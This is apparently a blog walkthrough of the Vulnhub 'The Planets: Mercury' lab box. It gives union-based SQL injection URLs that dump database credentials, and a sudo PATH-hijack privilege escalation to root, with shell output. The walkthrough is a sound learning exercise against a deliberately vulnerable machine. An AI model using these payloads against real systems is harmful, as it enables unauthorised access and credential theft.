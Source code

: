 ```yaml
---
layout: post
title:  "Vulnhub - THE PLANETS: MERCURY"
date:   2020-10-23 10:00:00 +1100
category: hacking
---
```


## Introduction
*Mercury is an easier box, with no bruteforcing required. There are two flags on the box: a user and root flag which include an md5 hash.*

This is [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/) from vulnhub. 

## Ports
This box has SSH on port 22, and HTTP on port 8080. The nmap detail scan says:
>8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2

## HTTP
The frontpage just says:
>Hello. This site is currently in development please check back later.

And robots.txt disallows the root. Viewing the page source doesn't give any hints either, but trying to go to a page that doesn't exist prompts a useful error:

{% highlight html %}
Page not found (404)
Request Method: 	GET
Request URL: 	http://192.168.1.116:8080/asdsadfc

Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

    [name='index']
    robots.txt [name='robots']
    mercuryfacts/

The current path, asdsadfc, didn't match any of these.

You're seeing this error because you have DEBUG = True in your Django settings file. Change that to False, and Django will display a standard 404 page.
{% endhighlight %}

So what can we learn from this? We appear to have a page at *mercuryfacts*, and the server is running Django (Python), with DEBUG turned on. Let's look at *mercuryfacts*.

## mercuryfacts
http://192.168.1.116:8080/mercuryfacts/ has a picture of Mercury, along with links to *Load a fact* and a *todo* list. The todo list says:

>   Add CSS.  
    Implement authentication (using users table)  
    Use models in django instead of direct mysql call  
    All the other stuff, so much!!!
	
So we have MySQL being called directly. Sounds like SQLi. 

### Facts
The facts page has a URL scheme like so:
>http://192.168.1.116:8080/mercuryfacts/2/

Where the number (2 in this case) can be changed to return a new fact. Putting a higher number returns an empty result:
>Fact id: 10. ()

Putting something like this:
>http://192.168.1.116:8080/mercuryfacts/'%20ORDER%20BY%201--+/

Returns a huge page of debugging information, which is very helpful. Ultimately I did this manually, with these commands:

``
http://192.168.1.116:8080/mercuryfacts/1%20UNION%20SELECT%20group_concat(fact)%20from%20facts/
``
This provided all of the facts, just for interest

``
http://192.168.1.116:8080/mercuryfacts/1%20UNION%20SELECT%20group_concat(table_name)%20from%20information_schema.tables/
``
This provided the database names - *information_schema* and *mercury*.

``
http://192.168.1.116:8080/mercuryfacts/1%20UNION%20SELECT%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema%3D'mercury'/
``
This provided the table names (we want *users*).

``
http://192.168.1.116:8080/mercuryfacts/1%20UNION%20SELECT%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name%3D'users'/
``
This provided the column names (*username, password*).

And finally this provided the data we want:
``
http://192.168.1.116:8080/mercuryfacts/1%20UNION%20SELECT%20group_concat(username,':',password)%20from%20mercury.users/
``

We ended up with four sets of credentials:
>john:johnny1987   
laura:lovemykids111  
sam:lovemybeer111  
webmaster:mercuryisthesizeof0.056Earths 


## SSH
Ultimately only the *webmaster* credentials work. Enumerating the *webmaster* directory we find some notes, which we can grab another set of credentials from:

{% highlight shell %}
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
webmaster@mercury:~/mercury_proj$ echo 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

### Privesc
We can use these new credentials to *su* to *linuxmaster*.

Linuxmaster can run a script called *check_syslog.sh* as root, while setting an environment variable. The script runs **tail** without a specified path, so we can create our own *tail*, make it executable, and then call SETENV to our PWD while running *sudo*. Here's what that looks like:

{% highlight shell %}
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog

// take advantage of tail with no path by creating one - looks like this:

linuxmaster@mercury:~$ cat tail
#!/bin/bash
/bin/bash

linuxmaster@mercury:~$ chmod +x tail

linuxmaster@mercury:~$ sudo -u root PATH=./ /usr/bin/check_syslog.sh
// Guff removed
root@mercury:/home/linuxmaster# 

root@mercury:~# ls -lash // note we messed with PATH, so things are screwy
Command 'ls' is available in the following places
 * /bin/ls
 * /usr/bin/ls
The command could not be located because '/bin:/usr/bin' is not included in the PATH environment variable.

root@mercury:~# /bin/ls .
root_flag.txt
root@mercury:~# /bin/cat root_flag.txt 
ASCII ART REMOVED

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
{% endhighlight %}

This wasn't too complicated but I enjoyed it. Thanks SirFlash.

